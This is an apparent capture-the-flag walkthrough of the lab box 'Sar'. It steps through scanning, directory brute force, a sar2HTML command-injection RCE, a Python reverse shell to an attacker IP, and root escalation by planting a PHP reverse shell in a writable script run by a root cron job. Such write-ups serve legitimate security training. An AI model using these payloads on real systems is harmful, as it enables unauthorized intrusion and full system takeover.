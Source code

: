 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the VulnHub box **"Sar"** that exploits sar2HTML via Remote Code Execution (RCE)
<br />

- **Box Host:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 
*Note 1: The IP addresses, URLs, and flags used in this demonstration were specific to the environment at the time of the exploit and will likely be different when another attempt at this box is made.*

*Note 2: There is almost always more than one way to expoit a box (TIMTOWTDI). The demonstration and tools shown here are probably not the only method you can use.*
- - -

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
```
```
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
Research to find **sar2HTML** exploit
- Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
- Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
- Example:

```
http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd
```

- - - 

### Step 4: Setup a Reverse Shell
Run a basic Python command to see if it is installed

```
python3 --help
```

- The output provided shows this is a success and python3 is installed

Setup a netcat listener in your terminal:
```
nc -lvp 1234
```

- Run a python3 script to connect to a reverse shell:

```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

- Successfully connected:

- Setup a stable shell (optional):

```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

- **user flag was found at:** /home/love/Desktop/user.txt

- - -

### step 5 (final): Gain Root
- Search for weak permissions
  - Find a **cron job** is being run as a root user

```
cat /etc/crontab
```

- Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**

*Note: This cronjob is running every 5 minutes*

- Navigate to /var/www/html/ and see what is there

```
cat /var/www/html
ls 
```

- Run cat on finally.sh and see it is calling write.sh

```
cat finally.sh
cat write.sh
```

- write.sh is creating a folder in temp directory
- the command **ls -l** shows we can edit write.sh

```
ls -l
```

- Add a php reverse connection command into write.sh with **echo**

```
echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

*Note: echo requires a \ in front of a $ and a " for the file to accept it*

- Setup a netcat listner

```
nc -lvp 4444
```

- Wait about 5 mins for cronjob to run again and see the shell open up on the new netcat listner
- **root flag was found at:** /root/root.txt





